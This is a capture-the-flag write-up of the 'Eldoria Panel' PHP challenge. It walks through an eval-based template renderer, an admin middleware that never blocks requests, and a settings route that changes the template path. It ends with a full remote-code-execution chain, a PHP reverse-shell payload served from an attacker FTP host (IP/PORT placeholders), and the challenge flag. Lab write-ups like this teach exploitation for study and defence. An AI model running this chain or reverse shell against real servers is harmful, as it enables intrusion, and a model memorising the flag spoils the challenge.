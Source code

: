 # Eldoria Panel
Tags: #php #rfi #ftp #rce 
## TLDR
RFI -> RCE
## Description
> A development instance of a panel related to the Eldoria simulation was found. Try to infiltrate it to reveal Malakar's secrets.
## Overview
It's a website that shows quests that can be claimed.
## Road to flag
The flag is in a file with a random name `mv /flag.txt /flag$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 10).txt` -> RCE
## Code review
- Every page is returned using `render`.
```php
$app->get('/dashboard', function (Request $request, Response $response, $args) {
    $html = render($GLOBALS['settings']['templatesPath'] . '/dashboard.php');
    $response->getBody()->write($html);
    return $response;
})->add($authMiddleware);
```

- The function `render` is vulnerable to RCE due to the use of `eval`
```php
function render($filePath) {
    if (!file_exists($filePath)) {
        return "Error: File not found.";
    }
    $phpCode = file_get_contents($filePath);
    ob_start();
    eval("?>" . $phpCode);
    return ob_get_clean();
}
```

But uses `file_exists` before calling `file_get_contents`. How can I provide a valid file?

- It's possible to set the **template path** calling `/api/admin/appSettings`
```php
$app->post('/api/admin/appSettings', function (Request $request, Response $response, $args) {
	$data = json_decode($request->getBody()->getContents(), true);
	if (empty($data) || !is_array($data)) {
		$result = ['status' => 'error', 'message' => 'No settings provided'];
	} else {
		$pdo = $this->get('db');
		$stmt = $pdo->prepare("INSERT INTO app_settings (key, value) VALUES (?, ?) ON CONFLICT(key) DO UPDATE SET value = excluded.value");
		foreach ($data as $key => $value) {
			$stmt->execute([$key, $value]);
		}
		if (isset($data['template_path'])) {
			$GLOBALS['settings']['templatesPath'] = $data['template_path'];
		}
		$result = ['status' => 'success', 'message' => 'Settings updated'];
	}
	$response->getBody()->write(json_encode($result));
	return $response->withHeader('Content-Type', 'application/json');
})->add($adminApiKeyMiddleware);
```

- The middleware is useless because calls `$handler->handle($request);` regardless -> every user can call admin routes.
```php
$adminApiKeyMiddleware = function (Request $request, $handler) use ($app) {
	if (!isset($_SESSION['user'])) {
		$apiKey = $request->getHeaderLine('X-API-Key');
		if ($apiKey) {
			$pdo = $app->getContainer()->get('db');
			$stmt = $pdo->prepare("SELECT * FROM users WHERE api_key = ?");
			$stmt->execute([$apiKey]);
			$user = $stmt->fetch(PDO::FETCH_ASSOC);
			if ($user && $user['is_admin'] === 1) {
				$_SESSION['user'] = [
					'id'              => $user['id'],
					'username'        => $user['username'],
					'is_admin'        => $user['is_admin'],
					'api_key'         => $user['api_key'],
					'level'           => 1,
					'rank'            => 'NOVICE',
					'magicPower'      => 50,
					'questsCompleted' => 0,
					'artifacts'       => ["Ancient Scroll of Wisdom", "Dragon's Heart Shard"]
				];
			}
		}
	}
	return $handler->handle($request);
};
```

## Exploitation
Since we can't write local files, we can't provide a valid local file to `file_exsists` and `file_get_contents` that triggers RCE.
To bypass the file operation restrictions, we can leverage PHP wrappers ([documentation](https://www.php.net/manual/en/wrappers.php)).
`HTTP` can't be used because `allow_url_fopen = on` is not present in `php.ini`.

After testing some of them, I found that `ftp` works with both `file_exsists` and `file_get_contents`.

Full exploit:
1. start an ftp server and host `dashboard.php` with content ``<?php $sock=fsockopen("IP",PORT);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>``
2. set template path: `POST /api/admin/appSettings` `{"template_path":"ftp://IP/dashboard.php"}`
3. get `/dashboard`
4. profit

`HTB{p41n_c4us3d_by_th3_usu4l_5u5p3ct_2976d9b37dabc9f2d52e7f45c1b954fe}`